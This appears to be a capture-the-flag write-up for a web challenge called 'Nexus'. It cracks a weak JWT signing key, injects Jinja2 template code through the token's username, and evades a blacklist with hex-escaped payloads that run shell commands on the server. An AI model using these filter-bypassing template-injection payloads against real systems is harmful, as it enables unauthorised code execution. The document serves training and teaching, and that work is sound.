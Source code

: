 <font size='10'>Nexus</font>

16<sup>th</sup> May 2024

Prepared By: `Muhammad Saad Akhtar`

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='yellow'>Not too easy</font>

<br><br>

## Description

- In this challenge, the participants need to analyze the functionality of the web app. They first need to exploit the JWT weak signing key to inject `SSTI` in the JWT cookie. Finally, they need to bypass some basic `SSTI` filtering to get code execution on the server.

## Skills Required

- Information Gathering
- Researching Skills
- A little bit of python know how (otherwise you'll get it with googling)

# Solution

The participants are provided with a URL to access the application.

Upon visiting the URL, we can see a login page.

![img](assets/0.png)

Since we don't have any creds, let's sign up and then login.

![img](assets/1.png)

We just get a dashboard and that's it. Nothing out of ordinary, we just have a jwt cookie after login and that's it.

Looking at the JWT token in [jwt.io](https://jwt.io).

![img](assets/2.png)

In the payload, it has our username. And the same username is also displayed on the dashboard above.

We might have some sort of injection here but we can't just modify the payload of jwt. We need the signing key first.

For this, we can try brute-forcing JWT signing key. If it is a weak one, we'll get it right.

We can use `john` for cracking and `rockyou.txt` or `jwt.secrets` wordlist to brute-force the signing key.

```bash
┌──(kali㉿kali)-[~/…/unused/nexus/writeup/test]
└─$ echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhYWQifQ.DHCqZk9wK2pKvO-ymWuVz0qhhdHzrn2s_PG-bHTZ32Q' > jwt.hash
```

![img](assets/3.png)

We got the key `changethis`.

Now we can use this key to manipulate the username and try different injection attacks.

Trying out `SSTI`, we can do with a payload like `{{7*7}}`.

![img](assets/4.png)

Then we try visiting `/dashboard` with this token.

![img](assets/5.png)

And we got `49` indicating, we got `SSTI`.

Now from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2), we can try a simple `SSTI` payload for RCE.

First let's try this one: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

Testing this payload, we get a blocked message.

![img](assets/6.png)

This indicates that there's some sort of filtering being done on the backend for `SSTI`.

We can try different payloads and as a result, it would return us with the blacklisted characters.

With trial and error, the final working payload would be as follows.

```python
{{self|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('subprocess')|attr('run')('id', shell=True)}}
```

In this payload, we're using `\x5f` in replacement of `_`. 

There are more ways to solve this as well but this one would work just fine.

Above payload runs `id` command using `subprocess` module. It won't show the output but we can get a success message that our command ran successfully.

Inject the payload in JWT and notice, we need to escape backslashes to fit in the payload.
![img](assets/7.png)

![img](assets/8.png)

We can also confirm this with `curl` or `wget` as it is somewhat blind.

We can try crafting a reverse shell with our available whitelisted characters or since the goal of this challenge is to read the flag, I'll do it with `subprocess.getoutput()`

```python
{{self|attr('\\x5f\\x5finit\\x5f\\x5f')|attr('\\x5f\\x5fglobals\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fbuiltins\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fimport\\x5f\\x5f')('subprocess')|attr('getoutput')('cat /*.txt')}}
```

Using `/*.txt` as the word `flag` is also blacklisted.

![img](assets/9.png)


### Challenge Flag

flag{im_n3ver_7rusting_f1rewalls_4gain!}